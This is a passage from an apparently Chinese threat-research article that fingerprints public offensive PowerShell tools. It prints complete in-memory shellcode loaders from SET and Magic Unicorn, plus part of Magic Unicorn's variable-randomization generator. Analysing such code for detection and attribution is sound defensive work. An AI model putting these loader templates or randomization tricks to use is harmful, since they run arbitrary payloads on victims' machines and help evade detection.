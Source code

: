 **2.1 分析方法**

为了说明这个工作的困难程度，我们可以回看2012年Matthew Graeber发布的一篇关于PowerShell脚本的博文，脚本可以加载shellcode至内存并运行。这个脚本也是此类技术的基础模板，大多数公开工具参考了脚本以期获得同样功能。

以下是TrustedSec系列工具中的社会工程学工具集（Social-Engineer Toolkit，SET）和Magic Unicorn工具经过两次迭代后的表现形式。对比两个样本，你可以发现，初始变量名上SET使用的是“$c”，而Magic Unicorn使用的是“$nLR”。与此类似，SET中“$size”与Magic Unicorn中“$g”对应，“$sc”与“$z”对应，“$x”与“$kuss”对应。

SET：

```
$c = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$sc = ;$size = 0x1000;if ($sc.Length -gt 0x1000){$size = $sc.Length};$x=$w::VirtualAlloc(0,0x1000,$size,0x40);for ($i=0;$i -le ($sc.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};
```

Magic Unicorn：

```
$nLR = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $nLR -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = ;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$kuss=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($kuss.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$kuss,0,0,0);for (;;){Start-sleep 60};
```

在Magic Unicorn中，生成脚本中有一行用于对一些变量进行随机化处理。以下样例显示了随机化处理的工作机制：



```
var1 = generate_random_string(3, 4)
var2 = generate_random_string(3, 4)
powershell_code = (
        r"""$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr …
powershell_code = powershell_code.replace("$1", "$" + var1).replace("$c", "$" + var2).replace("$2", "$" + var3) …
```

脚本使用3到4个随机数字字符对一些变量进行处理，但不是所有的变量都会被替换，因此我可以得知其变量生成机制。此外，如果没有经过Magic Unicorn脚本或其他形式的随机化处理，当这个特定片段被复制到其他工具中时我也可以鉴别出来。

对代码进行分析时，如果代码经过了许多人多年的重度重复使用，那么你总会碰到不适合分析的代码。我试图通过特征值尽可能准确地对代码进行分类，但不一定能做到足够准确，因为没有什么能够阻止别人简单地将代码复制粘贴到自己的工具中。

总体而言，我分析了27类公开工具或技术，它们具有独特的标识符，可以作为归类依据。在编号归类后我会对每个变种进行深度分析。首先我们来看一下变种的分支细目、样本数以及所占的样本百分比，如下表所示：

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0104b4db3d982ba129.png)

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0173860fcd403cd8cf.png)
